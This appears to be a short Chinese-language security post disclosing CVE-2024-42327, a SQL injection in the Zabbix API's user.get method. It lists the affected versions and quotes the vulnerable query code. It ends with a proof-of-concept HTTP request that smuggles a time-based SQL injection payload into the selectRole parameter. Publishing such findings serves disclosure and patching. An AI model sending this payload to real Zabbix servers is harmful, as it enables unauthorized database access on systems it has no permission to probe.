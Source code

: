 #  CVE-2024-42327 Zabbix SQL注入 POC   
原创 Khan安全团队  Khan安全攻防实验室   2024-12-06 11:50  
  
      Z  
abbix 前端上具有默认用户角色或任何其他授予 API 访问权限的角色的非管理员用户帐户均可利用此漏洞。  
addRelatedObjects 函数中的 CUser 类中存在 SQLi，此函数由 CUser.get 函数调用，每个具有 API 访问权限的用户均可使用该函数。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hgibGXicPPXMXYkBLK0PUdQ49O6QPnhg6eSCZ3KAnU0qmibTmRyEJIDn7yEmZtVTTVfjSIwefiabgrw/640?wx_fmt=png&from=appmsg "")  
  
  
受影响和修复的版本  
	  
：  
  
6.0.0 - 6.0.31 / 6.0.32rc1  
  
6.4.0 - 6.4.16 / 6.4.17rc1  
  
7.0.0 / 7.0.1rc1  
  
受影响代码：  
  
```
$db_roles = DBselect(
  'SELECT u.userid'.($options['selectRole'] ? ',r.'.implode(',r.', $options['selectRole']) : '').
  ' FROM users u,role r'.
  ' WHERE u.roleid=r.roleid'.
  ' AND '.dbConditionInt('u.userid', $userIds)
);
```  
  
  
  
POC  
：  
```
POST /api_jsonrpc.php HTTP/1.1
Host: localhost
User-Agent: curl/8.11.0
Accept: */*
Content-Type: application/json
Content-Length: 222
Connection: keep-alive

{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {
    "selectRole": ["roleid", "name", "type", "readonly AND (SELECT(SLEEP(5)))"],
    "userids": ["1","2"]
  },
  "id": 1,
  "auth": ""
}
```  
  
  
  
  
